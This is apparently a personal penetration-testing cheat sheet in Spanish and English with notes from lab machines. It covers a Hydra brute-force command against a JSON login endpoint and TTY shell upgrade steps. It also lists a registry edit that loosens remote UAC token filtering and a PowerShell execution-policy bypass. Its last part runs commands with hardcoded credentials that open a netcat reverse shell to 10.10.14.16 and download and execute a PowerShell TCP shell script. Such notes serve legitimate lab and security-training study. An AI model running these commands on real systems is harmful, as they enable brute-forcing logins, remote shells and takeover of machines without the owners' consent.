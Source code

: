 # General

## Herramientas

### Hydra

`hydra -l <USER> -p <PASSWORD> <IP_ADDRESS> http-post-form "<LOGIN_PAGE>:<REQUEST_BODY>:<ERROR_MESSAGE>"`

##### JSON Payload

`hydra -l "root@dasith.works" -P "/usr/share/wordlists/rockyou.txt" -s 3000 10.129.244.81 http-post-form "/api/user/login:{\"email\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:S=Password is wrong:H=content-type: application/json"`

## TTY

```
Ctrl + z
stty raw -echo
fg + enter
enter
export TERM=xterm
```

```
which python[3]
python[3] -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
# In Kali
stty -a # Notice number of rows and columns
stty raw -echo && fg
# On target system
reset
stty rows xx
stty columns yy
export TERM=xterm-256color
```

# Proxy debugging

TODO: Agregar comandos de shellhacks.com para redireccionar todo el tráfico de la consola a burpsuite

# Windows

## Crackmapexec `(Pwn3d!)`

`cmd.exe /c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f`

## Powershell

### Bypass de execution policy

```powershell
powerShell.exe -ExecutionPolicy Bypass .\script.ps1
```

Refs: https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/

### Invoke command providing credentials

```powershell
$userName = 'WORKGROUP\Hector'
$userPassword = 'l33th4x0rhector'
$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
$credObject = New-Object System.Management.Automation.PSCredential ($userName, $secStringPassword)
# ComputerName obtenida de los comandos: 
hostname
$env:COMPUTERNAME
[Environment]::MachineName

Invoke-Command -ComputerName Fidelity -Credential $credObject -ScriptBlock {C:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.16 4321}

Start-Process -FilePath 'powershell' -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.16/Invoke-PowerShellTcp.ps1')" -Credential $credObject
```